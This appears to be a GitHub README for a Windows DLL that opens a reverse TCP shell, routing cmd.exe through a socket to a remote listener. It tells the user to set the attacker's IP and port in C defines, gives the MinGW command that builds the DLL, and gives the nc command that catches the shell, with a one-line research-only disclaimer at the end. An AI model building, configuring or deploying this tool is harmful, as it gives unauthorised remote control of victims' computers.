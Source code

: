 # Windows DLL Reverse Shell

A simple Windows DLL that establishes a reverse TCP shell connection to a specified host and port.

## Overview

This DLL connects back to a remote listener and redirects the `cmd.exe` process input/output through the socket, allowing remote command execution.

## Configuration

Edit the following values in the source:

```c
#define REVERSEIP "127.0.0.1"
#define REVERSEPORT 5151
```

Replace them with the attacker's IP and listening port.

## Compilation

Compile with MinGW:

```bash
x86_64-w64-mingw32-gcc -shared -o ReverseShell.dll ReverseShell.c -lws2_32 -Wl,--subsystem,windows
```

## Usage

Run a listener on the specified port:

```bash
nc -lvnp 5151
```

When loaded, the DLL will connect back to the defined host and spawn a remote shell.

## Notes

For research and educational use only. Do not deploy on systems without explicit authorization.

---
